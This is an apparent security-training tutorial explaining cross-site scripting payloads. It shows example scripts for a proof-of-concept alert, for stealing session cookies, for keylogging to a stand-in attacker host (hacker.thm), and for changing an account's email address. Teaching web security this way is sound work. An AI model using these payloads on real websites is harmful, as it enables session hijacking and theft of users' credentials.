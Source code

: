 # Cross-site Scripting

## What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

Here are some examples of XSS intentions.

## Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

`<script>alert('XSS');</script>`

## Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

## Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

## Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

`<script>user.changeEmail('attacker@hacker.thm');</script>`

Now that the email address for the account has changed, the attacker may perform a reset password attack.

## Perfecting your payload
